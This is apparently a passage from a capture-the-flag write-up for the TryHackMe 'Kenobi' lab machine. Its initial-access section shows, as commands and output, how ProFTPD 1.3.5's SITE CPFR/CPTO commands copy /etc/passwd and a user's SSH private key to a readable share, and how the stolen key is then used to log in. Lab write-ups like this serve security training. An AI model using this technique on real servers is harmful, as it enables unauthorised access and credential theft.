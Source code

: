 ```bash
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Aug 13 18:40 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
```

3. We find that the `/var` dir of the server is mountable and we can read file from the system. 

4. And now we have a path inside by combining the copy files exploit [here](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Kenobi/Write_up.md#ftp) and the read here through var directory. 


## INITIAL ACCESS

1. Let's use the FTP exploit to get read on the common files.
   1. We found that there are only two users with login on the system - `root` & `kenobi`. 
   2. Let's try to find common files in `/home/kenobi` and try to obtain ssh keys.

**Output**

```bash
$ ftp 10.10.252.139
Connected to 10.10.252.139.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.252.139]
Name (10.10.252.139:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
530 Login incorrect.
ftp: Login failed
ftp> site cpfr /etc/passwd
350 File or directory exists, ready for destination name
ftp> site cpto /var/tmp/passwd
250 Copy successful                                                              
ftp> site cpfr /home/kenobi/user.txt
350 File or directory exists, ready for destination name
ftp> site cpto /var/tmp/user.txt
250 Copy successful
ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /var/tmp/kenobi_id_rsa
250 Copy successful
ftp> 
zsh: suspended  ftp 10.10.252.139
```

```bash
$ cat passwd | grep bash
root:x:0:0:root:/root:/bin/bash
kenobi:x:1000:1000:kenobi,,,:/home/kenobi:/bin/bash
                                                                                 
$ chmod 600 kenobi_id_rsa
                                                                                 
$ ssh -i kenobi_id_rsa kenobi@10.10.252.139 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Sun Aug 13 17:42:38 2023 from 10.13.5.5
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```